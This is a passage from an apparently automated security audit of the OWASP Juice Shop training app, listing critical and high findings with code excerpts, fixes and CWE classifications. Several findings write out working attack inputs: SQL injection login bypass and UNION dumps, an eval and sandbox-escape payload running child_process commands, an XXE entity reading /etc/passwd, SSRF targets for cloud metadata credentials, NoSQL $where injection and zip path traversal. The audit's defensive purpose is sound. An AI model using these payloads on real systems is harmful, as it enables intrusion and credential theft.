not digest-pinned — Dockerfile:1<br/>🟠 [F-026](#f-026) — Docker base image not digest-pinned — Dockerfile:23<br/>🟠 [F-027](#f-027) — On absent from repository (`package-lock.json:1`)<br/>🟠 [F-028](#f-028) — Sensitive Files Publicly Browsable (`server.ts:277`)<br/>🟠 [F-029](#f-029) — Weak Password Hashing (`models/user.ts:77`)<br/>🟠 [F-030](#f-030) — Access Log Public Exposure (`server.ts:281`)<br/>🟠 [F-031](#f-031) — Event-Loop Saturation (`routes/b2bOrder.ts:23`)<br/>🟠 [F-032](#f-032) — Event-Loop Blocking (`routes/trackOrder.ts:18`)<br/>🟠 [F-033](#f-033) — Missing Rate Limiting on Login Endpoint (`server.ts:343`)<br/>🟠 [F-034](#f-034) — YAML Bomb Parser Amplification (`routes/fileUpload.ts:117`)<br/>🟠 [F-035](#f-035) — XML Billion-Laughs Entity Expansion DoS (`routes/fileUpload.ts:83`)<br/>🟠 [F-036](#f-036) — Client-Side-Only Admin and Accounting Route Guards (`app.guard.ts:52`)<br/>🟠 [F-037](#f-037) — Unauthenticated Order Tracking IDOR (`track-result.component.ts:45`)<br/>🟠 [F-038](#f-038) — Missing Ownership Check Allows Horizontal Privilege Escalation in…<br/>🟠 [F-039](#f-039) — Stored XSS (`routes/profileImageUrlUpload.ts:28`)<br/>🟡 [F-040](#f-040) — Unauthenticated Socket\.IO Connection from SPA (`socket-io.service.ts:21`)<br/>🟡 [F-041](#f-041) — Raw Internal Error Messages Leaked to Caller (`routes/b2bOrder.ts:33`)<br/>🟡 [F-042](#f-042) — Container images not signed no cosign or build-provenance attestation…<br/>🟡 [F-043](#f-043) — Npm install does not use --ignore-scripts — Dockerfile:5<br/>🟡 [F-044](#f-044) — On postinstall hook present and not audited (package\.json:88)<br/>🟡 [F-045](#f-045) — Dependabot npm ecosystem not configured (.github/dependabot.yml:1)<br/>🟢 [F-046](#f-046) — Missing HEALTHCHECK instruction — Dockerfile:1<br/>🟢 [F-047](#f-047) — Renovate config absent automated dependency updates not…<br/>🟠 [F-048](#f-048) — Data disclosure (`challenges.yml:1381`)

<a id="th-01"></a><a id="th-02"></a><a id="th-05"></a><a id="th-06"></a><a id="th-08"></a><a id="th-03"></a><a id="th-04"></a><a id="th-10"></a><a id="th-11"></a><a id="th-12"></a><a id="th-14"></a><a id="th-16"></a><a id="th-17"></a><a id="th-13"></a>

### 🔴 Critical (10)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · Hardcoded Cryptographic Key

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `lib/insecurity.ts:23`

**Issue:** The RSA private key used to sign all application JWTs is hardcoded in plain text in `lib/insecurity.ts` line 23, in a public open-source repository. Any person who reads the source code can extract this key and sign a JWT token offline with any user identity and role claims they choose.

The forged token passes the expressJwt({ secret: publicKey }) check and `server.ts:423` because `RS256` verification only requires the matching public key. The attacker then sends the forged JWT as the Bearer token for POST `/b2b/v2/orders` and gains authenticated access to the RCE-capable eval sink without ever registering an account.

Any authenticated endpoint in the application is trivially bypassed; combined with b2b-api-001 this forms a zero-interaction RCE chain from an unauthenticated external position.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - The full PEM-encoded private RSA key is inline in the `insecurity.ts` source at line 23; the expressJwt call at line 54 does not restrict accepted algorithms, further enabling `alg:none` and algorithm-confusion attacks.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❶ [M-007](#m-007) — Move cryptographic keys to a managed secret store

**Classification:** Broken Authentication · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · Improper Verification of Cryptographic Signature

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `lib/insecurity.ts:191`

**Issue:** Without an explicit algorithm allowlist, attackers can forge tokens with `alg:none` (older lib versions) or use the public key as an HMAC secret to mint valid signatures.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified

```typescript
// lib/insecurity.ts:191
export const updateAuthenticatedUsers = () => (req: Request, res: Response, next: NextFunction) => {
  const token = req.cookies.token || utils.jwtFrom(req)
  if (token) {
    jwt.verify(token, publicKey, (err: Error | null, decoded: any) => {
      if (err === null) {
        if (authenticatedUsers.get(token) === undefined) {
          authenticatedUsers.put(token, decoded)
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❶ [M-001](#m-001) — Enforce JWT signature and algorithm verification

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/login.ts:34`

**Issue:** An unauthenticated attacker POSTs `email=' OR '1'='1` to `/rest/user/login`. The `req.body.email` value flows unescaped into `models.sequelize.query()` at `routes/login.ts:34`: `SELECT * FROM Users WHERE email = '${req.body.email}' AND password = '...'`.

The injected OR clause makes the WHERE condition always true, causing SQLite to return the first row - the seeded admin account. The attacker receives a valid JWT token with role `admin` without supplying any credential.

Complete authentication bypass; attacker obtains an admin-scoped JWT token and full application access.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `req.body.email` is concatenated directly into a raw SQL template string at `routes/login.ts:34` with no parameterization or escaping.

```typescript
// routes/login.ts:34

  return (req: Request, res: Response, next: NextFunction) => {
    verifyPreLoginChallenges(req) // vuln-code-snippet hide-line
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: tr
      .then((authenticatedUser) => { // vuln-code-snippet neutral-line loginAdminChallenge loginBenderChallenge loginJimChallenge
        const user = utils.queryResultToJson(authenticatedUser)
        if (user.data?.id && user.data.totpSecret !== '') {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-008](#m-008) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/search.ts:23`

**Issue:** An attacker submits `GET /rest/products/search?q=')) UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_master--`. The `criteria` variable (derived from `req.query.q`, truncated at 200 chars) flows into `models.sequelize.query()` at `routes/search.ts:23`: `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' ...`.

The UNION extends the result set with the `sqlite_master` schema, exposing every table definition. A further UNION on the `Users` table dumps all email addresses and `MD5`-hashed passwords.

Full read access to the SQLite database, including all user credentials and table schemas.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `req.query.q` is interpolated into a raw SQL template string at `routes/search.ts:23`; the 200-char length cap does not prevent UNION-based injection.

```typescript
// routes/search.ts:23
  return (req: Request, res: Response, next: NextFunction) => {
    let criteria: any = req.query.q === 'undefined' ? '' : req.query.q ?? ''
    criteria = (criteria.length <= 200) ? criteria : criteria.substring(0, 200)
    models.sequelize.query(`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`) // vuln-code-snippet vuln-line unionSql
      .then(([products]: any) => {
        const dataString = JSON.stringify(products)
        if (challengeUtils.notSolved(challenges.unionSqlInjectionChallenge)) { // vuln-code-snippet hide-start
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-009](#m-009) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/userProfile.ts:62`

**Issue:** `routes/userProfile.ts:55-62` checks if the stored username matches the pattern /#{(.*)}/ and if so extracts the content between `#{` and `}` and passes it to `Node.js` `eval()`. An authenticated attacker who sets their username to `#{process.mainModule.require('child_process').execSync('id').toString()}` will trigger RCE when any request is made to GET `/profile`.

The output of the command replaces the username in the rendered page. Full server-side RCE as the `Node.js` process user; attacker can read files, execute commands, or exfiltrate environment variables.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - eval(code) at line 62 executes attacker-controlled content extracted from the stored username field.

```typescript
// routes/userProfile.ts:62
        if (!code) {
          throw new Error('Username is null')
        }
        username = eval(code) // eslint-disable-line no-eval
      } catch (err) {
        username = '\\' + username
      }
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-010](#m-010) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · XML External Entity (XXE)

**Severity:** 🔴 Critical  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:83`

**Issue:** An attacker uploads an XML file containing an external entity declaration such as `<!ENTITY xxe SYSTEM "file:///etc/passwd">`. The libxmljs2 parser is invoked with `noent: true` on line 83, which resolves the external entity and includes the file content in the parsed XML document.

The serialized XML string is then concatenated into the error response message on line 87 and truncated to 400 characters: `next(new Error('... ' + utils.trunc(xmlString, 400) + ...))`.

Attacker can read arbitrary server-side files (credentials, private keys, `/etc/passwd`) and exfiltrate up to 400 bytes per request.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - libxmljs2.parseXml is called on line 83 with `noent: true` inside a vm sandbox; the resulting xmlDoc is serialized and appended verbatim to the HTTP error response on line 87.

```typescript
// routes/fileUpload.ts:83
      try {
        const sandbox = { libxml, data }
        vm.createContext(sandbox)
        const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })', sandbox, { timeout: 2000 })
        const xmlString = xmlDoc.toString(false)
        challengeUtils.solveIf(challenges.xxeFileDisclosureChallenge, () => { return (utils.matchesEtcPasswdFile(xmlString) || utils.matchesSystemIniFile(xmlString)) })
        res.status(410)
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ❶ [M-011](#m-011) — Disable XML external entity (XXE) resolution · ❸ [M-052](#m-052) — Disable XML external entity (XXE) resolution

**Classification:** Injection · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Server-Side Request Forgery (SSRF)

**Severity:** 🔴 Critical  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/profileImageUrlUpload.ts:24`

**Issue:** An authenticated user supplies an arbitrary URL in `req.body.imageUrl`. The application calls `fetch(url)` on line 24 with no scheme validation, host allowlist, or redirect restriction.

Inside a Docker container on AWS/GCP/Azure, the attacker sets `imageUrl` to `http://169.254.169.254/latest/meta-data/iam/security-credentials/` (IMDSv1) or `http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token`. The response body (containing cloud credentials) is piped to a file at `frontend/dist/frontend/assets/public/images/uploads/<userId>.jpg` (line 29-30).

Attacker can probe internal services and exfiltrate cloud metadata credentials (IAM tokens, service account keys) by reading the resulting file via the frontend.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `fetch(url)` on line 24 is invoked with the caller-supplied URL and no allowlist check; the response body is written to a publicly-accessible static-file path on line 29-30.

```typescript
// routes/profileImageUrlUpload.ts:24
      const loggedInUser = security.authenticatedUsers.get(req.cookies.token)
      if (loggedInUser) {
        try {
          const response = await fetch(url)
          if (!response.ok || !response.body) {
            throw new Error('url returned a non-OK status code or an empty body')
          }
```

**Fix:** Validate the URL scheme + host against an explicit allow-list before issuing outbound requests → ❶ [M-012](#m-012) — Validate and allowlist outbound request targets · ❸ [M-053](#m-053) — Validate and allowlist outbound request targets

**Classification:** Server-Side Request Forgery · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [OWASP A10:2021](https://owasp.org/Top10/A10_2021/)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-04](#c-04) - B2B REST API  ·  **Location:** `routes/b2bOrder.ts:23`

**Issue:** An authenticated attacker (or one who has forged a JWT using the hardcoded RSA private key in `lib/insecurity.ts`) POSTs to `/b2b/v2/orders` with a crafted orderLinesData payload that chains prototype pollution to the Function constructor. The `notevil` sandbox does not block access to `Object.prototype.constructor.constructor`, allowing a payload such as `({}).__proto__.constructor.constructor('return process')().mainModule.require('child_process').execSync('id')` to escape the evaluator and execute arbitrary OS commands in the `Node.js` process context.

The `vm.runInContext` wrapper provides no additional protection because the escape occurs within the `notevil` evaluation step, before the vm boundary is relevant. Full server-side RCE is achieved as the process user running Juice Shop.

Complete server-side RCE: attacker can read filesystem (config files, encryptionkeys/), exfiltrate the database, write backdoors, or pivot to internal network services.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - Line 23 passes the unsanitized body.orderLinesData string directly to `safeEval()` inside `vm.runInContext` without any content validation or prototype-key filtering.

```typescript
// routes/b2bOrder.ts:23
      try {
        const sandbox = { safeEval, orderLinesData }
        vm.createContext(sandbox)
        vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })
        res.json({ cid: body.cid, orderNo: uniqueOrderNumber(), paymentDue: dateTwoWeeksFromNow() })
      } catch (err) {
        if (utils.getErrorMessage(err).match(/Script execution timed out.*/) != null) {
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-013](#m-013) — Remove server-side evaluation of untrusted input · ❸ [M-054](#m-054) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · Path Traversal

**Severity:** 🔴 Critical  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:44`

**Issue:** An attacker crafts a ZIP archive where one or more entries have path components that traverse outside `uploads/complaints/`, e.g., `../../ftp/legal.md` or `../../lib/insecurity.ts`. The check on line 44 computes `absolutePath.includes(path.resolve('.'))` - because `path.resolve('.')` equals the application's working directory (e.g., `/juice-app`), and `path.resolve('uploads/complaints/../../ftp/legal.md')` equals `/juice-app/ftp/legal.md`, the `includes()` call returns `true` (the absolute path contains the working directory prefix as a substring), allowing the traversal.

The entry is piped to `fs.createWriteStream('uploads/complaints/' + fileName)` on line 45, which `Node.js` resolves relative to CWD - writing to `/juice-app/ftp/legal.md`. An attacker can overwrite application source files that are subsequently `require()`d by the running server, achieving code execution.

Attacker can write arbitrary files within the application directory tree, including overwriting served files (`ftp/`) or potentially requiring-hotloaded modules, escalating to RCE.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `absolutePath.includes(path.resolve('.'))` on line 44 is not a proper prefix guard; it passes for any path whose absolute form contains the CWD string, allowing traversal one directory above.

```typescript
// routes/fileUpload.ts:44
                const fileName = entry.path
                const absolutePath = path.resolve('uploads/complaints/' + fileName)
                challengeUtils.solveIf(challenges.fileWriteChallenge, () => { return absolutePath === path.resolve('ftp/legal.md') })
                if (absolutePath.includes(path.resolve('.'))) {
                  entry.pipe(fs.createWriteStream('uploads/complaints/' + fileName).on('error', function (err) { next(err) }))
                } else {
                  entry.autodrain()
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ❶ [M-014](#m-014) — Constrain file paths to a safe base directory · ❸ [M-055](#m-055) — Constrain file paths to a safe base directory

**Classification:** Broken Access Control · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [backend-api](#backend-api)  ·  **Location:** `routes/memory.ts:15`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/memory.ts:15
    const record = {
      caption: req.body.caption,
      imagePath: 'assets/public/images/uploads/' + req.file?.filename,
      UserId: req.body.UserId
    }
    const memory = await MemoryModel.create(record)
    res.status(200).json({ status: 'success', data: memory })
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-002](#m-002) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

### 🟠 High (30)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · Insecure Storage of Sensitive Information

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/login/login.component.ts:101`

**Issue:** The Angular SPA stores the JWT in `localStorage` (`login.component.ts:101`, `oauth.component.ts:51`, `two-factor-auth-enter.component.ts:53`, `chatbot.component.ts:97`). No Backend-for-Frontend (BFF) pattern is present - there is no server-side session endpoint that would issue an `HttpOnly` cookie.

With no CSP, any of the four `bypassSecurityTrustHtml` XSS vectors in the same component provides a one-line path to token exfiltration: `localStorage.getItem('token')`. XSS exploitation anywhere in the SPA yields the JWT immediately; the attacker can impersonate the user for the full JWT lifetime with no revocation path.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - Four separate call sites store the JWT in `localStorage`; no `HttpOnly` cookie alternative or BFF session endpoint exists in the SPA codebase.

**Fix:** ❷ [M-004](#m-004) — Store session tokens in HttpOnly, Secure cookies · ❸ [M-049](#m-049) — Store session tokens in HttpOnly, Secure cookies

**Classification:** Insecure Client-Side Storage · [CWE-922](https://cwe.mitre.org/data/definitions/922.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · Incorrect Permission Assignment

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `.github/workflows/ci.yml:1`

**Issue:** The CI/CD workflow has no top-level 'permissions:' block, so it inherits the repository default GITHUB_TOKEN scope (often write-all). A compromised step or action in the workflow can use the token to push code, create releases, or approve PRs.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - A sensitive resource is created with permissive default permissions.

```yaml
// .github/workflows/ci.yml:1
name: "CI/CD Pipeline"
on:
  push:
```

**Fix:** ❷ [M-005](#m-005) — Apply least-privilege permissions · ❸ [M-050](#m-050) — Apply least-privilege permissions

**Classification:** Error Information Disclosure · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `server.ts:310`

**Issue:** State-changing operations on sensitive resources MUST require a proven session. A registration line that lacks any auth marker either trusts the URL itself or relies on a downstream check that the static signature cannot prove exists.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - Route-level authorization middleware is missing on a mutating endpoint.

```typescript
// server.ts:310
  /* File Upload */
  app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handle
  app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), profileImageFileUpload())
  app.post('/profile/image/url', uploadToMemory.single('file'), profileImageUrlUpload())
  app.post('/rest/memories', uploadToDisk.single('image'), ensureFileIsPassed, security.appendUserId(), metrics.observeFileUploadMetricsMiddleware(), addMemory())
```

**Fix:** ❷ [M-006](#m-006) — Enforce server-side authorization on every endpoint · ❸ [M-051](#m-051) — Enforce server-side authorization on every endpoint

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · Improper Authentication

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/oauth/oauth.component.ts:30`

**Issue:** `oauth.component.ts:28` extracts `access_token` from the URL fragment - the OAuth 2.0 implicit flow (no authorization code, no PKCE). `app.routing.ts:237` captures `window.location.href` including the fragment at page-load time and passes it as route static data; `app.routing.ts:261-263` checks for `#access_token=` in `window.location.href` to activate the OAuth route.

Two independent weaknesses compound here: (1) The access token arrives in the URL fragment, making it visible in browser history, Referer headers to any resource the page loads, and server-side access logs. An attacker who knows the victim's OAuth provider email can authenticate as that user without OAuth interaction.

the access token in the URL fragment is leaked to browser history and referer headers.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `parseRedirectUrlParams()` at line 71 reads the raw URL hash, and line 30 derives the account password as `btoa(email.reversed)` - fully predictable from the email address.

```typescript
// frontend/src/app/oauth/oauth.component.ts:30
    this.userService.oauthLogin(this.parseRedirectUrlParams().access_token).subscribe({
      next: (profile: any) => {
        const password = btoa(profile.email.split('').reverse().join(''))
        this.userService.save({ email: profile.email, password, passwordRepeat: password }).subscribe({
          next: () => {
```

**Fix:** Strengthen authentication: enforce a vetted JWT verifier with explicit algorithm, MFA where appropriate → ❷ [M-015](#m-015) — Harden the authentication flow · ❸ [M-056](#m-056) — Harden the authentication flow

**Classification:** OAuth / OIDC Misconfiguration · [CWE-287](https://cwe.mitre.org/data/definitions/287.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · Insufficient Verification of Data Authenticity

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `lib/insecurity.ts:58`

**Issue:** Decode-only flows let an attacker construct a token with any claims (admin, sub=victim, scope=*) - no key material required.

**Evidence:** ✓ verified

```typescript
// lib/insecurity.ts:58
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
export const decode = (token: string) => { return jws.decode(token)?.payload }

export const sanitizeHtml = (html: string) => sanitizeHtmlLib(html)
```

**Fix:** ❷ [M-016](#m-016) — Verify token signatures before trusting claims · ❸ [M-057](#m-057) — Verify token signatures before trusting claims

**Classification:** Supply-Chain Integrity · [CWE-345](https://cwe.mitre.org/data/definitions/345.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · NoSQL Injection

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/trackOrder.ts:18`

**Issue:** An attacker calls `GET /rest/track-order/<payload>` where payload is a 60-character JavaScript expression such as `'; return true; var x='` (truncated to 60 chars). At `routes/trackOrder.ts:18` MarsDB evaluates `db.ordersCollection.find({ $where: "this.orderId === '" + id + "'" })`.

The `$where` operator executes JavaScript in the MarsDB engine - the injected `return true` breaks out of the comparison and matches every document, leaking all orders. Attacker reads all orders regardless of ownership; malicious JS expression blocks the event loop causing denial of service.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `req.params.id` (truncated to 60 chars) is embedded in a `$where` JavaScript string at `routes/trackOrder.ts:18` and evaluated by the MarsDB engine.

```typescript
// routes/trackOrder.ts:18

    challengeUtils.solveIf(challenges.reflectedXssChallenge, () => { return utils.contains(id, '<iframe src="javascript:alert(`xss`)">') })
    db.ordersCollection.find({ $where: `this.orderId === '${id}'` }).then((order: any) => {
      const result = utils.queryResultToJson(order)
      challengeUtils.solveIf(challenges.noSqlOrdersChallenge, () => { return result.data.length > 1 })
```

**Fix:** Replace string concatenation in query operators with parameter binding → ❷ [M-021](#m-021) — Use parameterized database queries · ❸ [M-062](#m-062) — Use parameterized database queries

**Classification:** Injection · [CWE-943](https://cwe.mitre.org/data/definitions/943.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · Uses --unsafe-perm npm install flag

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `Dockerfile:5`

**Issue:** 'npm install --unsafe-perm' runs postinstall lifecycle scripts with elevated (root) privileges inside the build container. Any compromised dependency can exploit this to gain root access during the build, enabling exfiltration of build secrets or supply-chain code injection.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:5
WORKDIR /juice-shop
RUN npm i -g typescript ts-node
RUN npm install --omit=dev --unsafe-perm
RUN npm dedupe --omit=dev
RUN rm -rf frontend/node_modules
```

**Fix:** ❷ [M-023](#m-023) — Drop unnecessary privileges in build and runtime · ❸ [M-064](#m-064) — Drop unnecessary privileges in build and runtime

**Classification:** Injection · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · Third-party GitHub Action not pinned

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `.github/workflows/ci.yml:161`

**Issue:** coverallsapp/github-action is referenced at tag '@v2' without a SHA pin. Tag mutation allows the action publisher to inject malicious code into coverage-report jobs that have access to the GITHUB_TOKEN.

**Evidence:** ✓ verified

```yaml
// .github/workflows/ci.yml:161
          name: api-test-lcov
      - name: "Publish coverage to Coveralls"
        uses: coverallsapp/github-action@v2
        with:
          github-token: ${{ secrets.GITHUB_TOKEN }}
```

**Fix:** ❷ [M-024](#m-024) — Pin third-party dependencies to immutable versions · ❸ [M-065](#m-065) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `Dockerfile:1`

**Issue:** The build stage base image 'node:24' is referenced by tag only. A malicious or compromised publisher can silently retag 'node:24' to point to a different image layer, causing every subsequent build to use attacker-controlled code without any visible change to the Dockerfile.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:1
FROM node:24 AS installer
COPY . /juice-shop
WORKDIR /juice-shop
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-025](#m-025) — Pin the container base image to an immutable digest · ❸ [M-066](#m-066) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `Dockerfile:23`

**Issue:** The runtime stage base image '`gcr.io`/distroless/nodejs24-debian13' is referenced by tag only. Tag mutation on `gcr.io` would cause the production image to silently include different runtime layers on the next build.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:23
RUN npm run sbom

FROM gcr.io/distroless/nodejs24-debian13
ARG BUILD_DATE
ARG VCS_REF
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-025](#m-025) — Pin the container base image to an immutable digest · ❸ [M-067](#m-067) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

